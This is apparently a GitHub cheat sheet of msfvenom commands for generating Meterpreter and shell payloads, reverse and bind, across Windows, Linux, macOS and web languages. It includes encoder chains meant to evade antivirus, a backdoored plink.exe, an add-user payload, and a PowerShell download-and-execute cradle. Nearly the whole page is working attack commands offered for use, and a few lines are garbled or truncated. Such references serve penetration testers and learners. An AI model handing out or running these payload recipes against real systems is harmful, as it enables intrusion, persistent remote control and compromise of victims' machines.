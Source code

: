 # msfvenom

## reverse all port payload

```
msfvenom -p windows/meterpreter/reverse_tcp_allports lhost=192.168.56.1 lport=6969  --platform windows exitfunc=thread -a x86  -f exe >reverse_all.exe

set payload windows/meterpreter/reverse_tcp_allports
```

lport is the starting port which can also be set to 1 so it will go all the way to 65535 in both payload and the

## multi-transport payload

in AddTransports.ps1 :

```
Add-TcpTransport -lhost <host> -lport <port> -RetryWait 10 -RetryTotal 30
Add-WebTransport -Url https://<host>:<port>;-RetryWait 10 -RetryTotal 30
Add-WebTransport -Url http://<host>:<port>;-RetryWait 10 -RetryTotal 30
```

The command line for this would be:

```
msfvenom -p windows/meterpreter_reverse_tcp lhost=<host> lport=<port> sessionretrytotal=30 sessionretrywait=10 extensions=stdapi,priv,powershell extinit=powershell,/home/ionize/AddTransports.ps1 -f exe
```

## custom payload

​​this is a chained command -- enter it one line at a time

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.30.53 LPORT=443 -f raw -e x86/shikata_ga_nai -i 10 | \
msfvenom -a x86 --platform windows -e x86/countdown -i 8  -f raw | \
msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 9 -f exe -o payload.exe
```

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.30.53 LPORT=443 -f raw -e x86/shikata_ga_nai -i 10 | \
msfvenom -a x86 --platform windows -e x86/jmp_call_additive -i 8  -f raw | \
msfvenom -a x86 --platform windows -e x86/call4_dword_xor -i 8  -f raw | \
msfvenom -a x86 --platform windows -e x86/countdown -i 8  -f raw | \
msfvenom -a x86 --platform windows -e x86/fnstenv_mov -i 8  -f raw | \
msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 9 -f exe -o payload.exe
```

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.10.234 LPORT=443 R | \
msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -t exe -c --platform windows /usr/share/windows-binaries/plink.exe -o beffany.exe

```

## Linux

Linux Meterpreter reverse shell x86 multi stage

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf 
```

Linux Meterpreter bind shell x86 multi stage

```
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf 
```

Linux bind shell x64 single stage

```
msfvenom -p linux/x64/shell_bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf 	
```

Linux reverse shell x64 single stage

```
msfvenom -p linux/x64/shell_reverse_tcp RHOST=IP LPORT=PORT -f elf > shell.elf 
```

## Windows

Windows Meterpreter reverse shell

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe
```

Windows Meterpreter http reverse shell

```
msfvenom -p windows/meterpreter_reverse_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe
```

Windows Meterpreter bind shell

```
msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe
```

Windows CMD Multi Stage

```
msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe
```

Windows CMD Single Stage

```
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe >
```

Windows add user

```
 shell.exemsfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe
```

Windows Exec Nishang Powershell in python

```
 msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f python
```

Bad characters shikata\_ga\_nai

```
 msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/shikata_ga_nai -b "\x04\xA0"
```

Bad characters fnstenv\_mov

```
msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/fnstenv_mov -b "\x04\xA0"
```

## MAC

Mac Reverse Shell

```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=IP LPORT=PORT -f macho > shell.macho
```

Mac Bind shell

```
msfvenom -p osx/x86/shell_bind_tcp RHOST=IP LPORT=PORT -f macho > shell.macho
```

## Other Languages

python

```
msfvenom -p cmd/unix/reverse_python LHOST=IP LPORT=PORT -f raw > shell.py
```

BASH Shell

```
msfvenom -p cmd/unix/reverse_bash LHOST=IP LPORT=PORT -f raw > shell.sh
```

PERL Shell

```
msfvenom -p cmd/unix/reverse_perl LHOST=IP LPORT=PORT -f raw > shell.pl
```

ASP Meterpreter shell

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f asp > shell.asp
```

JSP Shell

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f raw > shell.jsp
```

​WAR Shell

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f war > shell.war
```

​pbcopy && echo '?php '

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=IP LPORT=PORT -f raw > shell.php cat shell.php
```

Php Reverse Shell

```
msfvenom -p php/reverse_php LHOST=IP LPORT=PORT -f raw > phpreverseshell.php
```
